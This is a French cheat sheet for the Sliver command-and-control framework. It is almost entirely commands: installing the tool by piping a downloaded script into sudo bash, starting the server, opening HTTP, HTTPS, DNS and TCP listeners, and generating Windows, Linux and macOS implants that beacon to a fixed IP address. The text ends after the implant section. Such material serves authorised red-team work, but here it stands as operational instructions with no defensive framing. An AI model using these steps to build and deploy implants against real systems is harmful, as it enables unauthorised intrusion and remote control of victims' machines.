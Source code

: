 # Silver C2 - Aide-Mémoire Rapide

## 🚀 Démarrage Rapide

### Installation
```bash
# Installation automatique
curl https://sliver.sh/install | sudo bash

# Ou utiliser le script fourni
chmod +x install-silver-c2.sh
./install-silver-c2.sh
```

### Première utilisation
```bash
# Démarrer le serveur
sudo sliver-server daemon

# Se connecter (nouveau terminal)
sliver-client
```

## 📡 Listeners

### Créer des listeners
```bash
# HTTP
http --lhost 0.0.0.0 --lport 8080

# HTTPS
https --lhost 0.0.0.0 --lport 8443

# DNS
dns --domains example.com --lhost 0.0.0.0 --lport 53

# TCP pivotant
stage-listener --url tcp://0.0.0.0:8888
```

### Gestion des listeners
```bash
listeners              # Lister tous les listeners
listeners -k <ID>      # Arrêter un listener
```

## 🎯 Génération d'Implants

### Implants basiques
```bash
# Windows EXE
generate --http 192.168.1.100:8080 --os windows --arch amd64 --format exe --save /tmp/

# Linux ELF  
generate --http 192.168.1.100:8080 --os linux --arch amd64 --format elf --save /tmp/

# macOS
generate --http 192.168.1.100:8080 --os darwin --arch amd64 --format macho --save /tmp/
```
